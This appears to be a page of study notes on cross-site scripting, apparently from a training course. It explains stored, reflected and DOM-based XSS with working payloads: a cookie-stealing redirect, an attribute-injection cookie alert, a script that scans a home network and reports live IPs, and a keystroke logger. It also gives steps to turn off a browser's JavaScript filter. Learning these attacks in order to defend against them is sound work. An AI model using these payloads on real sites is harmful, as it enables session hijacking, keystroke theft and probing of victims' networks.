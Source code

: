 # XSS (Cross-Site Scripting)

## Stored XSS

A website allows user input that is not sanitised.

<figure><img src="../.gitbook/assets/image (1) (3).png" alt=""><figcaption><p>An example Stored XSS</p></figcaption></figure>

`<script>alert(1)</script>`

`<script>document.querySelector('#thm-title').textContent = 'Hey'</script>`

`<script>document.location='/log/'+document.cookie</script>`

## Reflected XSS

The malicious payload is part of the victims request to the website.

The website includes this payload in response back to the user.

An attacker needs to trick a victim into clicking a URL to execute their malicious payload.

<figure><img src="../.gitbook/assets/image (1) (4).png" alt=""><figcaption><p>An example Reflected XSS</p></figcaption></figure>

Some browsers have in-built XSS protection.

In FireFox complete the following steps:

In URL bar: about:config

Search: browser.urlbar.filter.javascript

Change the boolean value from True to False

## DOM-Based XSS

DOM stands for **D**ocument **O**bject **M**odel and is a programming interface for HTML and XML documents.&#x20;

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption><p>DOM</p></figcaption></figure>

With **reflective** xss, an attackers payload will be injected directly on the website and will not matter when other Javascript on the site gets loaded.

```html
<html>
    You searched for <em><script>...</script></em>
</html>
```

With **DOM-Based** xss, an attackers payload will only be executed when the vulnerable Javascript code is either loaded or interacted with. It goes through a Javascript function like so:

```javascript
var keyword = document.querySelector('#search')
keyword.innerHTML = <script>...</script>
```

Example: Upload picture:

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>



`test" onmouseover="alert(document.cookie)"`



<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

## IP & Port Scanner

For example, a website could try to find if your router has a web interface at 192.168.0.1 by:

`<img src="http://192.168.0.1/favicon.ico" onload="alert('Found')" onerror="alert('Not found')">`

The following script will scan an internal network in the range 192.168.0.0 to 192.168.0.255

```javascript
<script>
    for (let i = 0; i < 256; i++) { // This is looping from 0 to 255
        let ip = '192.168.0.' + i // Creates variable for forming IP
        // Creating an image element, if the resource can load, it logs to the /logs page.
        let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
        document.body.innerHTML += code // This is adding the image element to the webpage
    }
</script> 
```

## Key Logger

<pre class="language-javascript"><code class="lang-javascript">&#x3C;script type="text/javascript">
    let l = ""; // Variable to store key-strokes in
    document.onkeypress = function (e) { // Event to listen for key presses
<strong>        l += e.key; // If user types, log it to the l variable
</strong>        console.log(l); // update this line to post to your own server
    }
&#x3C;/script> 
</code></pre>

